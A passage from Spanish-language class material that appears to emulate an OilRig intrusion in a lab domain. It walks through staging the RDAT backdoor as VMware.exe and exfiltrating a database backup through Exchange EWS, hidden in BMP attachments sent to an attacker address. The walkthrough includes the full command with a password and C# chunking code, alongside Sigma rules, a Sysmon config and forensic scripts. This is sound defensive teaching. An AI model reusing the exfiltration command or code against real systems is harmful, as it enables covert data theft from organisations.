   - Denegar ejecución desde %TEMP%, %APPDATA%
   - WDAC/AppLocker con modo enforcement

5. **Privilegios Mínimos**
   - Reducir número de usuarios con privilegios administrativos
   - Cuentas de servicio no deberían ser administradores
   - Implementar Just-In-Time (JIT) admin access

**Detección:**

1. **EDR con Protección de Credenciales**
   - Monitoreo de acceso a LSASS en tiempo real
   - Alertas automáticas sobre patrones de Mimikatz
   - Behavioral analytics para detectar secuencias de ataque

2. **Sysmon con Configuración Robusta**
   - Event ID 10 (ProcessAccess) para LSASS
   - Event ID 11 (FileCreate) para ejecutables en %TEMP%
   - Correlación de eventos para detectar cadenas de ataque

3. **Auditoría de Eventos de Windows**
   - Event ID 4656 (Handle to Object Requested)
   - Event ID 4663 (Attempt to Access Object)
   - Filtrar por objeto: lsass.exe

**Respuesta:**

1. **Contención Inmediata:**
   - Forzar cambio inmediato de contraseña de "tous"
   - Deshabilitar temporalmente cuenta de "tous"
   - Aislar WATERFALLS de la red
   - Terminar todas las sesiones activas de "tous"

2. **Análisis Forense:**
   - Adquirir memoria RAM del servidor Exchange
   - Buscar rastros de Mimikatz en memoria
   - Analizar logs de eventos para reconstruir timeline
   - Revisar archivos eliminados en journal NTFS

3. **Erradicación:**
   - Eliminar webshell (contact.aspx)
   - Escanear en busca de otros implantes
   - Verificar integridad de archivos del sistema

4. **Recuperación:**
   - Implementar Credential Guard antes de restaurar servicio
   - Habilitar LSA Protection
   - Forzar rotación de contraseñas de todas las cuentas privilegiadas
   - Implementar MFA para cuentas administrativas

5. **Lecciones Aprendidas:**
   - Credential Guard habría prevenido este ataque
   - Monitoring de acceso a LSASS es crítico
   - Webshells en servidores críticos requieren respuesta inmediata

---

> **\[Clase — omitido en sesión\]** **Paso 7: Movimiento Lateral a EWS vía Túnel RDP (plink).** El atacante usa `plink.exe` (PuTTY CLI) para crear un túnel SSH desde la máquina Kali hacia el Exchange Server, exponiendo el puerto RDP (3389) del Exchange localmente. Técnicas: T1021.001 (RDP), T1572 (Protocol Tunneling). Ver backup para el flujo completo.

---

### Fase 3: Compromiso del Servidor SQL y Exfiltración

Esta fase representa la culminación del ataque de OilRig, donde los atacantes aprovechan el acceso obtenido al servidor Exchange para pivotar hacia el servidor SQL (ENDOFROAD), descubrir datos sensibles, exfiltrarlos utilizando técnicas esteganográficas, y finalmente borrar sus rastros antes de abandonar la red comprometida.

**Objetivos de la Fase 3:**
- Movimiento lateral hacia el servidor SQL utilizando credenciales privilegiadas
- Descubrimiento de bases de datos y archivos de respaldo
- Exfiltración de datos vía EWS API con esteganografía
- Eliminación de artefactos y egreso limpio

---

> **\[Clase — omitido en sesión\]** **Paso 8: Movimiento Lateral al Servidor SQL (Pass-the-Hash + PsExec).** Con el hash NTLM de *BOOMBOX\\tous* obtenido en Paso 6 via Mimikatz, el atacante aplica pass-the-hash usando `sekurlsa::pth` y luego `PsExec.exe` para ejecutar comandos remotos en ENDOFROAD (10.1.0.7). RDAT es transferido al SQL Server. Técnicas: T1550.002, T1569.002. Ver backup para el flujo completo.

---

> **\[Clase — omitido en sesión\]** **Paso 9: Discovery en el Servidor SQL.** RDAT ejecuta comandos de enumeración en ENDOFROAD: localización del archivo de respaldo `sitedata_db.bak`. El atacante confirma la ruta exacta del objetivo de exfiltración. Ver backup para detalle completo.

---

#### **Paso 10: Recolección y Exfiltración de Archivos de Base de Datos**

##### **Contexto del Ataque**

Este paso representa la fase de misión cumplida (mission accomplished) del ataque de OilRig. Los atacantes utilizan el backdoor RDAT para exfiltrar los archivos de respaldo de la base de datos mediante la API de Exchange Web Services (EWS), ocultando los datos dentro de imágenes BMP utilizando técnicas esteganográficas.

**Resumen de Actividades:**
1. Crear directorio de staging para RDAT
2. Mover y renombrar RDAT como proceso aparentemente legítimo (VMware.exe)
3. Ejecutar RDAT para leer, fragmentar y exfiltrar el archivo de base de datos
4. Enviar fragmentos como adjuntos esteganográficos vía EWS API

**Técnicas MITRE ATT&CK:**
- **T1074.001** - Data Staged: Local Data Staging
- **T1030** - Data Transfer Size Limits
- **T1048.003** - Exfiltration Over Alternative Protocol: Exfiltration Over Unencrypted Non-C2 Protocol
- **T1071.003** - Application Layer Protocol: Mail Protocols
- **T1027.003** - Obfuscated Files or Information: Steganography
- **T1114.002** - Email Collection: Remote Email Collection

---

##### **Preparación: Staging de RDAT**

Los atacantes preparan el entorno para la exfiltración creando una estructura de directorios que simula software legítimo:

**1. Crear directorio staging:**

```cmd
mkdir C:\Programdata\Vmware
```

**Análisis:**
- `C:\ProgramData\` es un directorio común para datos de aplicaciones
- Nombre "Vmware" sugiere software legítimo (VMware guest tools)
- Tácticas de masquerading para evadir inspección casual

**2. Mover y renombrar RDAT:**

```cmd
move C:\Programdata\Nt.dat C:\Programdata\Vmware\VMware.exe
```

**Análisis:**
- Cambio de extensión de `.dat` a `.exe` para facilitar ejecución
- Nombre `VMware.exe` se camufla como proceso legítimo
- Ubicación en carpeta VMware aumenta la credibilidad del camuflaje

**3. Navegar al directorio de respaldos SQL:**

```cmd
cd "C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\Backup\"
```

**Análisis:**
- PsExec tiene limitaciones en la longitud de línea de comandos
- Cambiar al directorio permite usar rutas relativas en el comando RDAT
- Reduce complejidad del comando de exfiltración

---

##### **Ejecución de RDAT: Exfiltración Esteganográfica**

Los atacantes ejecutan RDAT con parámetros específicos para fragmentar y exfiltrar el archivo de base de datos:

```cmd
C:\ProgramData\Vmware\VMware.exe \
    --path="sitedata_db.bak" \
    --to="sistan@shirinfarhad.com" \
    --from="gosta@boom.box" \
    --server="10.1.0.6" \
    --password='d0ntGoCH4$ingW8trfalls' \
    --chunksize="200000"
```

**Análisis de Parámetros:**

1. **`--path="sitedata_db.bak"`**
   - Archivo objetivo para exfiltración
   - Ruta relativa (trabajando desde directorio Backup)
   - En este caso: ~50 MB de datos de base de datos

2. **`--to="sistan@shirinfarhad.com"`**
   - Dirección de email controlada por los atacantes
   - Dominio registrado por OilRig para operaciones
   - Recibirá todos los fragmentos de datos exfiltrados

3. **`--from="gosta@boom.box"`**
   - Cuenta de email comprometida
   - Utiliza credenciales válidas para autenticación EWS
   - El email aparecerá en "Sent Items" de Gosta (evidencia forense)

4. **`--server="10.1.0.6"`**
   - Servidor Exchange (WATERFALLS)
   - RDAT se conecta directamente a EWS API
   - No requiere salir a Internet (evasión de egress filtering)

5. **`--password='d0ntGoCH4$ingW8trfalls'`**
   - Contraseña de Gosta obtenida previamente
   - Autenticación NTLM con EWS
   - Acceso legítimo a servicios de correo

6. **`--chunksize="200000"`**
   - Fragmentos de 200,000 bytes (~195 KB)
   - Tamaño manejable para enviar como adjuntos de email
   - Evita alertas por emails con adjuntos extremadamente grandes

---

##### **Funcionamiento Interno de RDAT**

RDAT implementa un proceso sofisticado de exfiltración en múltiples pasos:

**Flujo de Operación:**

```
┌─────────────────────────────────────────────────────────────────┐
│ Paso 1: Lectura de Archivo                                     │
│ ────────────────────────────────────────────────────────────── │
│  sitedata_db.bak (52,428,800 bytes)                            │
│  └─> Read file into memory buffer                              │
└─────────────────────────────────────────────────────────────────┘
                             │
                             ▼
┌─────────────────────────────────────────────────────────────────┐
│ Paso 2: Fragmentación                                          │
│ ────────────────────────────────────────────────────────────── │
│  Dividir en chunks de 200,000 bytes:                           │
│   - Chunk 0: bytes 0-199,999                                   │
│   - Chunk 1: bytes 200,000-399,999                             │
│   - Chunk 2: bytes 400,000-599,999                             │
│   - ...                                                        │
│   - Chunk N: bytes restantes                                   │
│  Total: ~262 chunks                                            │
└─────────────────────────────────────────────────────────────────┘
                             │
                             ▼
┌─────────────────────────────────────────────────────────────────┐
│ Paso 3: Esteganografía                                         │
│ ────────────────────────────────────────────────────────────── │
│  Para cada chunk:                                              │
│   1. Cargar plantilla guest.bmp (archivo benigno)             │
│   2. Append chunk data al final de la imagen BMP              │
│   3. Resultado: guest_chunk0.bmp, guest_chunk1.bmp, etc.      │
│                                                                │
│  Estructura del archivo BMP resultante:                        │
│  ┌────────────────────────────┐                               │
│  │ BMP Header (54 bytes)      │  ← Válido                     │
│  ├────────────────────────────┤                               │
│  │ BMP Image Data             │  ← Imagen legítima            │
│  ├────────────────────────────┤                               │
│  │ [Datos exfiltrados]        │  ← Oculto al final            │
│  └────────────────────────────┘                               │
└─────────────────────────────────────────────────────────────────┘
                             │
                             ▼
┌─────────────────────────────────────────────────────────────────┐
│ Paso 4: Exfiltración vía EWS API                              │
│ ────────────────────────────────────────────────────────────── │
│  Para cada imagen BMP generada:                                │
│   1. Conectar a EWS API (https://10.1.0.6/EWS/Exchange.asmx)  │
│   2. Autenticar como gosta@boom.box                           │
│   3. Crear EmailMessage con:                                   │
│      - To: sistan@shirinfarhad.com                            │
│      - From: gosta@boom.box                                    │
│      - Subject: [Auto-generated]                              │
│      - Attachment: guest_chunkN.bmp                           │
│   4. SendAndSaveCopy() - Enviar y guardar en Sent Items      │
│   5. Repetir para cada chunk                                   │
└─────────────────────────────────────────────────────────────────┘
```

**Código Fuente Relevante (Análisis):**

```csharp
// Fragmentación del archivo
byte[] fileData = File.ReadAllBytes(filePath);
int chunkSize = 200000;
int totalChunks = (int)Math.Ceiling((double)fileData.Length / chunkSize);

for (int i = 0; i < totalChunks; i++)
{
    int offset = i * chunkSize;
    int length = Math.Min(chunkSize, fileData.Length - offset);

    byte[] chunk = new byte[length];
    Array.Copy(fileData, offset, chunk, 0, length);

    // Esteganografía: Agregar chunk a imagen BMP
    byte[] bmpTemplate = File.ReadAllBytes("guest.bmp");
    byte[] stegoImage = new byte[bmpTemplate.Length + chunk.Length];

    Array.Copy(bmpTemplate, 0, stegoImage, 0, bmpTemplate.Length);
    Array.Copy(chunk, 0, stegoImage, bmpTemplate.Length, chunk.Length);

    // Exfiltrar vía EWS
    ExfiltrateViaEWS(stegoImage, i);
}
```

**Ventajas de la Técnica Esteganográfica:**

1. **Evasión de DLP (Data Loss Prevention):**
   - Inspección de contenido no detecta datos sensibles
   - Archivos BMP parecen imágenes legítimas
   - Análisis superficial de adjuntos no revela datos ocultos

2. **Evasión de Network Security:**
   - Tráfico HTTPS legítimo a servidor Exchange interno
   - No hay conexiones salientes a Internet
   - Protocolo estándar (EWS) usado para funciones legítimas

3. **Persistencia de Datos:**
   - Emails almacenados en servidor Exchange
   - Copia en "Sent Items" de Gosta
   - Datos persisten incluso si se pierde conexión durante exfiltración

---

##### **Oportunidades de Detección**

**1. Detección de Procesos Masquerading:**

```yaml
# Sigma Rule: VMware.exe Execution from Unusual Location
title: Ejecución de VMware.exe desde Ubicación Inusual
status: experimental
description: Detecta ejecución de VMware.exe fuera de directorios legítimos
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\VMware.exe'
    filter:
        Image|startswith:
            - 'C:\Program Files\VMware\'
            - 'C:\Program Files (x86)\VMware\'
    condition: selection and not filter
falsepositives:
    - Instalaciones personalizadas de VMware en ubicaciones no estándar
level: high
tags:
    - attack.defense_evasion
    - attack.t1036.005
```

**2. Detección de Exfiltración vía EWS:**

```yaml
# Sigma Rule: High Volume Email Sending via EWS
title: Envío de Volumen Alto de Emails vía EWS API
status: experimental
description: Detecta envío de múltiples emails en corto tiempo vía EWS
logsource:
    product: exchange
    service: ews
detection:
    selection:
        Action: 'SendAndSaveCopy'
        ClientApplication|contains: 'RDAT'
    timeframe: 10m
    condition: selection | count(UserPrincipalName) > 50
falsepositives:
    - Scripts automatizados legítimos de envío de emails
    - Aplicaciones de negocio que envían notificaciones masivas
level: high
tags:
    - attack.exfiltration
    - attack.t1048.003
```

**3. Detección de Emails con Adjuntos Esteganográficos:**

```yaml
# Sigma Rule: Email with Suspicious BMP Attachments
title: Email con Adjuntos BMP Sospechosos
status: experimental
description: Detecta emails con múltiples adjuntos BMP de tamaño inusual
logsource:
    product: exchange
    service: transport
detection:
    selection:
        AttachmentExtension: '.bmp'
        AttachmentSize: '>100000'  # > 100 KB
    timeframe: 10m
    condition: selection | count(SenderAddress) > 20
falsepositives:
    - Compartir colecciones de imágenes legítimas
    - Transferencias de diseño gráfico
level: medium
tags:
    - attack.exfiltration
    - attack.t1027.003
```

**4. Detección con PowerShell (Exchange Logs):**

```powershell
# Analizar logs de Exchange para detectar patrón de exfiltración
$startTime = (Get-Date).AddHours(-24)

Get-MessageTrackingLog -Start $startTime -ResultSize Unlimited |
    Where-Object {
        $_.EventId -eq 'SEND' -and
        $_.TotalBytes -gt 100000 -and
        $_.RecipientAddress -notlike '*@boom.box'
    } |
    Group-Object SenderAddress |
    Where-Object { $_.Count -gt 50 } |
    ForEach-Object {
        [PSCustomObject]@{
            Sender = $_.Name
            MessagesSent = $_.Count
            TotalSizeMB = ($_.Group | Measure-Object TotalBytes -Sum).Sum / 1MB
            Recipients = ($_.Group.RecipientAddress | Select-Object -Unique)
            TimeRange = "$(($_.Group.Timestamp | Measure-Object -Minimum).Minimum) - $(($_.Group.Timestamp | Measure-Object -Maximum).Maximum)"
        }
    } |
    Format-Table -AutoSize
```

**5. Análisis de Archivos Esteganográficos:**

```powershell
# Script para detectar datos ocultos en archivos BMP
function Test-SteganographicBMP {
    param([string]$Path)

    $bytes = [System.IO.File]::ReadAllBytes($Path)

    # Leer BMP header
    if ($bytes[0] -ne 0x42 -or $bytes[1] -ne 0x4D) {
        Write-Host "No es un archivo BMP válido"
        return
    }

    # Obtener tamaño de archivo del header
    $fileSize = [BitConverter]::ToUInt32($bytes, 2)
    $pixelDataOffset = [BitConverter]::ToUInt32($bytes, 10)
    $imageSize = [BitConverter]::ToUInt32($bytes, 34)

    # Calcular tamaño esperado
    $expectedSize = $pixelDataOffset + $imageSize
    $actualSize = $bytes.Length

    # Si hay bytes extra al final = posible esteganografía
    $extraBytes = $actualSize - $expectedSize

    if ($extraBytes -gt 1000) {  # Threshold: 1KB
        Write-Host "[ALERT] Posible esteganografía detectada" -ForegroundColor Red
        Write-Host "Archivo: $Path"
        Write-Host "Tamaño esperado: $expectedSize bytes"
        Write-Host "Tamaño actual: $actualSize bytes"
        Write-Host "Datos ocultos: $extraBytes bytes"

        # Extraer datos ocultos
        $hiddenData = $bytes[$expectedSize..($actualSize-1)]
        $outputPath = "$Path.extracted"
        [System.IO.File]::WriteAllBytes($outputPath, $hiddenData)
        Write-Host "Datos extraídos a: $outputPath"
    } else {
        Write-Host "[OK] Archivo BMP sin anomalías" -ForegroundColor Green
    }
}

# Escanear todos los BMPs en buzón de un usuario
$mailboxPath = "C:\Users\gosta\AppData\Local\Microsoft\Outlook\Archive\"
Get-ChildItem -Path $mailboxPath -Filter *.bmp -Recurse |
    ForEach-Object { Test-SteganographicBMP -Path $_.FullName }
```

---

##### **Estrategias de Mitigación**

**Prevención:**

1. **Restringir EWS API Access:**
   ```powershell
   # Deshabilitar EWS para usuarios que no lo requieren
   Set-CASMailbox -Identity "gosta" -EwsEnabled $false

   # Permitir solo para aplicaciones autorizadas
   Set-CASMailbox -Identity "gosta" -EwsAllowList @("Outlook/*")
   ```

2. **Rate Limiting en EWS:**
   ```powershell
   # Configurar throttling policy para EWS
   New-ThrottlingPolicy -Name "RestrictedEWS" `
       -EwsMaxConcurrency 1 `
       -EwsPercentTimeInAD 5 `
       -EwsPercentTimeInCAS 10 `
       -MessageRateLimit 50 `
       -RecipientRateLimit 100

   Set-ThrottlingPolicyAssociation -Identity "gosta@boom.box" `
       -ThrottlingPolicy "RestrictedEWS"
   ```

3. **Content Filtering para Archivos Esteganográficos:**
   - Implementar inspección profunda de adjuntos BMP
   - Verificar coherencia entre header BMP y tamaño real del archivo
   - Bloquear o alertar sobre BMPs con datos appended

4. **Egress Filtering para Emails:**
   ```powershell
   # Transport Rule para detectar envío masivo de adjuntos
   New-TransportRule -Name "Block Mass Attachment Sending" `
       -AttachmentSizeOver 100KB `
       -SentToScope NotInOrganization `
       -SetAuditSeverity High `
       -GenerateIncidentReport "security@boom.box"
   ```

5. **Network Segmentation:**
   - SQL servers no deberían poder comunicarse directamente con Exchange
   - Firewall rule:
     ```
     Deny: [SQL VLAN] → [Exchange VLAN]:443,80
     ```

**Detección:**

1. **SIEM Correlation:**
   ```
   IF [PsExec Execution on SQL Server]
     AND [Process Execution: VMware.exe from ProgramData]
     AND [High Volume EWS API Calls]
     AND [Multiple Emails with Large BMP Attachments]
     AND [Emails Sent to External Domain]
   THEN Alert: Critical - Data Exfiltration in Progress
   ```

2. **Behavioral Analytics:**
   - Baseline de comportamiento de envío de emails por usuario
   - Alertar sobre desviaciones significativas
   - Ejemplo: Gosta normalmente envía 5 emails/día, alerta si > 100 emails/hora

3. **Mail Flow Monitoring:**
   ```powershell
   # Monitoreo en tiempo real con Exchange Management Shell
   while ($true) {
       $recentSends = Get-MessageTrackingLog -Start (Get-Date).AddMinutes(-5) `
           -EventId "SEND" -ResultSize Unlimited

       $suspiciousActivity = $recentSends | Group-Object SenderAddress |
           Where-Object { $_.Count -gt 20 }

       if ($suspiciousActivity) {
           Send-AlertEmail -To "soc@boom.box" `
               -Subject "ALERT: Possible Data Exfiltration" `
               -Body $suspiciousActivity
       }

       Start-Sleep -Seconds 300
   }
   ```

**Respuesta:**

1. **Contención Inmediata:**
   - Deshabilitar cuenta de email de Gosta: `Disable-Mailbox -Identity gosta`
   - Terminar proceso RDAT en ENDOFROAD: `taskkill /F /IM VMware.exe`
   - Bloquear dominio `shirinfarhad.com` en email gateway
   - Aislar ENDOFROAD de la red

2. **Análisis de Impacto:**
   ```powershell
   # Identificar todos los emails enviados durante el ataque
   $exfilEmails = Get-MessageTrackingLog -Sender "gosta@boom.box" `
       -Start (Get-Date).AddDays(-7) `
       -Recipients "sistan@shirinfarhad.com"

   # Calcular volumen total exfiltrado
   $totalExfiltrated = ($exfilEmails | Measure-Object TotalBytes -Sum).Sum
   Write-Host "Total de datos exfiltrados: $($totalExfiltrated / 1MB) MB"

   # Listar adjuntos
   $exfilEmails | ForEach-Object {
       Write-Host "MessageId: $($_.MessageId)"
       Write-Host "Timestamp: $($_.Timestamp)"
       Write-Host "Size: $($_.TotalBytes) bytes"
   }
   ```

3. **Recuperación de Datos Exfiltrados:**
   ```powershell
   # Recuperar emails del buzón de Gosta (Sent Items)
   $mailbox = "gosta@boom.box"
   $sentItems = Get-MailboxFolderStatistics -Identity $mailbox |
       Where-Object { $_.FolderType -eq "SentItems" }

   # Exportar para análisis forense
   New-MailboxExportRequest -Mailbox $mailbox `
       -ContentFilter {(Received -gt "10/14/2024") -and (To -like "*shirinfarhad.com")} `
       -FilePath "\\ForensicShare\Investigations\OilRig\gosta_sent_items.pst"
   ```

4. **Análisis Forense de Archivos BMP:**
   ```bash
   # Extraer datos ocultos de archivos BMP recuperados
   for bmp in *.bmp; do
       echo "Analyzing $bmp..."

       # Obtener tamaño declarado en header BMP
       header_size=$(hexdump -s 2 -n 4 -e '1/4 "%u"' "$bmp")

       # Obtener tamaño real del archivo
       actual_size=$(stat -f%z "$bmp")

       # Calcular diferencia
       hidden_size=$((actual_size - header_size))

       if [ $hidden_size -gt 1000 ]; then
           echo "[!] Hidden data detected: $hidden_size bytes"

           # Extraer datos ocultos
           dd if="$bmp" of="$bmp.extracted" bs=1 skip=$header_size

           # Intentar identificar tipo de archivo
           file "$bmp.extracted"
       fi
   done

   # Reconstruir archivo original concatenando todos los chunks
   cat *.bmp.extracted > sitedata_db.bak.recovered

   # Verificar integridad
   file sitedata_db.bak.recovered
   ```

5. **Hardening Post-Incidente:**
   - Implementar MFA obligatorio para acceso a EWS
   - Desplegar DLP con detección de esteganografía
   - Implementar egress filtering estricto para SQL servers
   - Configurar alertas proactivas para actividad anómala de EWS
   - Realizar threat hunting proactivo en busca de otros implantes

---

> **\[Clase — omitido en sesión\]** **Paso 11: Limpieza y Egreso.** Tras la exfiltración, el atacante elimina: RDAT y sus archivos staging, tareas programadas de SideTwist, TwoFace del servidor Exchange, logs de evento de Windows (Security, System, Application) con `wevtutil`. Resultado: artefactos principales eliminados — persistencia forense en VSS (shadow copies) y logs de red (firewall, proxy) fuera del alcance del atacante. Ver backup para el checklist completo de artefactos.

---

---

## **Parte 3: Ingeniería de Detección**

> **\[Clase — solo sección 3.3\]** Las secciones **3.1 Análisis de Malware** (código fuente de SideTwist, VALUEVAULT, TwoFace, RDAT) "
"y **3.2 Infraestructura del Ataque** están en el backup como lectura autónoma asignada. "
"La arquitectura de red ya fue cubierta en la Parte 1.

### **3.3 Ingeniería de Detección**

Esta sección proporciona una guía comprehensiva para detectar las actividades de OilRig mediante múltiples capas de detección, desde network-level hasta endpoint y comportamiento de usuario.

---

#### **Estrategia de Detección en Capas**

```
┌─────────────────────────────────────────────────────────────────┐
│ Capa 1: Network Detection                                      │
│ ────────────────────────────────────────────────────────────── │
│ - Firewall logs                                                │
│ - IDS/IPS signatures                                           │
│ - NetFlow analysis                                             │
│ - DNS query logs                                               │
│ - Proxy logs                                                   │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 2: Perimeter Detection                                    │
│ ────────────────────────────────────────────────────────────── │
│ - Email gateway (phishing detection)                           │
│ - Web application firewall (webshell detection)                │
│ - DLP (data exfiltration prevention)                           │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 3: Host-based Detection                                   │
│ ────────────────────────────────────────────────────────────── │
│ - EDR/EPP (endpoint detection)                                 │
│ - Sysmon (detailed process logging)                            │
│ - Windows Event Logs                                           │
│ - File Integrity Monitoring                                    │
│ - Registry monitoring                                          │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 4: Application-level Detection                            │
│ ────────────────────────────────────────────────────────────── │
│ - IIS logs (webshell activity)                                │
│ - Exchange logs (EWS abuse)                                    │
│ - SQL Server audit logs                                        │
│ - Active Directory audit logs                                  │
└─────────────────────────────────────────────────────────────────┘
                            │
                            ▼
┌─────────────────────────────────────────────────────────────────┐
│ Capa 5: Behavioral Analytics                                   │
│ ────────────────────────────────────────────────────────────── │
│ - UEBA (User Entity Behavior Analytics)                        │
│ - Anomaly detection (ML/AI)                                    │
│ - Threat hunting queries                                       │
│ - SIEM correlation rules                                       │
└─────────────────────────────────────────────────────────────────┘
```

---

#### **Matriz de Detección por Fase del Ataque**

| Fase/Paso                      | Técnica Principal          | Fuente de Telemetría                | Dificultad | Regla/Query                              |
| ------------------------------ | -------------------------- | ----------------------------------- | ---------- | ---------------------------------------- |
| **Paso 1: Phishing**           | Spearphishing Link         | Email Gateway, Proxy Logs           | Media      | Email content filtering, URL reputation  |
| **Paso 1: Macro Execution**    | VBA Macros                 | Process Creation (4688), Sysmon (1) | Baja       | Office spawning cmd.exe/powershell       |
| **Paso 1: Persistence**        | Scheduled Task             | Event 4698, Sysmon (1)              | Baja       | Scheduled task in user AppData           |
| **Paso 1: C2 Beacon**          | HTTP C2                    | Network logs, Firewall              | Media      | Periodic HTTP beacons, port 443 non-TLS  |
| **Paso 2: Discovery**          | System Discovery           | Process Creation (4688)             | Media      | Rapid enumeration commands               |
| **Paso 3: Credential Dump**    | Windows Vault Access       | API calls, DLL loads                | Media      | vaultcli.dll loading, .dat file creation |
| **Paso 4: WebShell**           | Server Software Component  | File creation, IIS logs             | Baja       | .aspx file in Exchange directory         |
| **Paso 5: Recon via WebShell** | Web Shell Execution        | IIS logs, Process tree              | Baja       | w3wp.exe → cmd.exe                       |
| **Paso 6: Mimikatz**           | LSASS Access               | Process access (10), Sysmon (10)    | Baja       | Non-system process accessing lsass.exe   |
| **Paso 7: SSH Tunnel**         | Protocol Tunneling         | Network connections, Process        | Media      | plink.exe with tunnel params             |
| **Paso 8: Pass-the-Hash**      | Use Alternate Auth         | Event 4624 (logon type 9)           | Media      | Logon with NTLM after cred dump          |
| **Paso 8: PsExec**             | Remote Service Creation    | Event 7045, Service logs            | Baja       | PSEXESVC service creation                |
| **Paso 9: SQL Discovery**      | File/Directory Discovery   | Process Creation, File access       | Alta       | dir commands to SQL paths                |
| **Paso 10: Exfiltration**      | Exfil via EWS              | Exchange logs, Email tracking       | Media      | High-volume email sending                |
| **Paso 10: Steganography**     | Obfuscation: Steganography | File analysis, Email attachments    | Alta       | Oversized BMP files                      |
| **Paso 11: Cleanup**           | Indicator Removal          | Event 4660 (Delete), File deletion  | Alta       | Mass file deletion pattern               |

---

#### **Detecciones Críticas por Prioridad**

##### **Prioridad 1: Detecciones de Alto Impacto**

**1. Detección de Acceso a LSASS (Mimikatz):**

```yaml
title: Critical - LSASS Memory Access
id: 32d0d3e2-e58d-4d41-926b-18b520b2b32d
status: production
description: Detecta acceso a memoria de lsass.exe por proceso no autorizado
logsource:
    product: windows
    category: process_access
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess|contains:
            - '0x1010'  # PROCESS_VM_READ
            - '0x1038'  # PROCESS_VM_READ | PROCESS_QUERY_INFORMATION
            - '0x1400'  # PROCESS_QUERY_INFORMATION
            - '0x1fffff' # PROCESS_ALL_ACCESS
    filter_system:
        SourceImage|startswith:
            - 'C:\Windows\System32\'
            - 'C:\Windows\SysWOW64\'
            - 'C:\Program Files\Windows Defender\'
    condition: selection and not filter_system
falsepositives:
    - Legitimate security/monitoring tools
    - Antivirus software
level: critical
tags:
    - attack.credential_access
    - attack.t1003.001
```

**2. Detección de WebShell en Exchange:**

```yaml
title: Critical - WebShell Activity on Exchange Server
id: 8a8b3f23-4c71-4c91-8e1d-99b3d59c5f4e
status: production
description: Detecta ejecución de comandos desde proceso IIS (webshell)
logsource:
    product: windows
    category: process_creation
detection:
    selection_parent:
        ParentImage|endswith:
            - '\w3wp.exe'
            - '\httpd.exe'
    selection_child:
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\wmic.exe'
    filter:
        CommandLine|contains:
            - 'HealthMailbox'  # Legitimate Exchange health checks
    condition: selection_parent and selection_child and not filter
falsepositives:
    - Legitimate management scripts executed by IIS
level: critical
tags:
    - attack.persistence
    - attack.t1505.003
    - attack.execution
    - attack.t1059
```

**3. Detección de Exfiltración Masiva vía Email:**

```yaml
title: Critical - Mass Email Exfiltration via EWS
id: f9e2e8d5-4a6b-4c8e-9f2d-1a3b5c7e9f11
status: production
description: Detecta envío masivo de emails con adjuntos (possible RDAT)
logsource:
    product: exchange
    service: message_tracking
detection:
    selection:
        EventId: 'SEND'
        TotalBytes: '>100000'
    timeframe: 30m
    condition: selection | count(SenderAddress) by SenderAddress > 50
falsepositives:
    - Legitimate bulk email campaigns
    - Automated notification systems
level: critical
tags:
    - attack.exfiltration
    - attack.t1048.003
    - attack.t1114.002
```

---

##### **Prioridad 2: Detecciones de Movimiento Lateral**

**4. Detección de PsExec:**

```yaml
title: High - PsExec Service Installation
id: 42d36aa1-d9e3-4f44-872f-32d54f87d0a9
status: production
description: Detecta instalación del servicio PSEXESVC
logsource:
    product: windows
    service: system
detection:
    selection_service:
        EventID: 7045
        ServiceName: 'PSEXESVC'
    selection_file:
        EventID: 11  # Sysmon file creation
        TargetFilename|endswith: '\PSEXESVC.exe'
    condition: selection_service or selection_file
falsepositives:
    - Legitimate administrative use of PsExec
level: high
tags:
    - attack.lateral_movement
    - attack.t1021.002
    - attack.execution
    - attack.t1569.002
```

**5. Detección de Pass-the-Hash:**

```yaml
title: High - Pass-the-Hash Authentication
id: f3d39c45-de1b-4c00-b18d-3b01b2a08a24
status: production
description: Detecta autenticación usando hash NTLM después de credential dump
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4624
        LogonType: 9  # NewCredentials
        AuthenticationPackageName: 'Negotiate'
    timeframe: 30m
    condition: selection | near(EventID=4688 AND Image="*mimikatz*")
falsepositives:
    - Legitimate use of RunAs with /netonly
level: high
tags:
    - attack.lateral_movement
    - attack.t1550.002
```

---

##### **Prioridad 3: Detecciones de Reconocimiento**

**6. Detección de Enumeración de Red:**

```yaml
title: Medium - Rapid Network Enumeration
id: c9a88d89-3d71-4c0e-9e1d-8f5a4e2d7c3b
status: production
description: Detecta ejecución rápida de múltiples comandos de descubrimiento
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\cmd.exe'
        CommandLine|contains:
            - 'net user'
            - 'net group'
            - 'net localgroup'
            - 'ipconfig'
            - 'netstat'
            - 'whoami'
            - 'systeminfo'
    timeframe: 5m
    condition: selection | count() by Computer > 5
falsepositives:
    - IT support and system administrators
    - Automated inventory scripts
level: medium
tags:
    - attack.discovery
    - attack.t1087
    - attack.t1069
    - attack.t1016
```

---

#### **Configuración de Sysmon para Detección**

**sysmon-config.xml optimizado para OilRig:**

```xml
<Sysmon schemaversion="4.82">
  <EventFiltering>

    <!-- Process Creation (EventID 1) -->
    <RuleGroup groupRelation="or">
      <ProcessCreate onmatch="include">

        <!-- Detectar macros de Office ejecutando scripts -->
        <Rule name="Office spawning scripts" groupRelation="and">
          <ParentImage condition="end with">
            WINWORD.EXE
          </ParentImage>
          <ParentImage condition="end with">
            EXCEL.EXE
          </ParentImage>
          <Image condition="end with">cmd.exe</Image>
          <Image condition="end with">powershell.exe</Image>
          <Image condition="end with">wscript.exe</Image>
          <Image condition="end with">cscript.exe</Image>
        </Rule>

        <!-- Detectar webshell (IIS spawning cmd.exe) -->
        <Rule name="Webshell execution" groupRelation="and">
          <ParentImage condition="end with">w3wp.exe</ParentImage>
          <Image condition="end with">cmd.exe</Image>
        </Rule>

        <!-- Detectar Mimikatz -->
        <Rule name="Mimikatz execution">
          <Image condition="contains">mimikatz</Image>
          <CommandLine condition="contains">sekurlsa</CommandLine>
        </Rule>

        <!-- Detectar PsExec -->
        <Rule name="PsExec execution">
